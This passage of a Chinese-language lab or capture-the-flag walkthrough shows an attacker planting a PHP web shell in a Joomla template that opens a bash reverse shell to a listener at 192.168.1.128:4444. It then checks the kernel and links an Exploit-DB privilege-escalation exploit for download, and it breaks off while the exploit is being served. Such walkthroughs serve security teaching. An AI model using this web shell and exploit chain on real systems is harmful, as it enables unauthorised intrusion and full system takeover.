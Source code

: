 ```text
http://192.168.1.103/administrator/index.php
```

  

![](https://pic3.zhimg.com/80/v2-c5649d185cc36219cf4fcecbdf56a33a_720w.webp)

  

登陆到后台我来到了网站到模版处，添加了一个新的`php`页面，里面的代码是我们的反弹`shell`的代码：

```text
<?php
system("bash -c 'bash -i >& /dev/tcp/192.168.1.128/4444 0>&1' ");
?>
```

  

![](https://pic4.zhimg.com/80/v2-9ce5d5b8f4ad27fbb4271687fb1b04bb_720w.webp)

  

这个时候 `KALI` 用 `nc` 监听 `4444`，我们访问 `saul.php` 这个文件成功得到一枚`shell`：

```text
192.168.1.103/templates/beez3/saul.php
```

  

![](https://pic1.zhimg.com/80/v2-e9e513826e8337b1b57055b676b5ba0c_720w.webp)

  

## 权限提升

拿到`shell`只后我查看了一下内核版本发现系统是16年的 `Ubuntu`：

```text
uname -a
```

  

![](https://pic3.zhimg.com/80/v2-2f686c4cb1087f0322e763f081c574be_720w.webp)

  

紧接着我搜索有关于这个版本的漏洞发现了一个提权漏洞：

  

![](https://pic3.zhimg.com/80/v2-bf59e82862edb266b2f28331cfd9e456_720w.webp)

  

这是它的下载地址：

```text
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

我把 `exp` 下载到本地只后，我 `KALI` 先是用 `python` 开启了一个简单的服务器用于靶机下载我们的 `exp`：
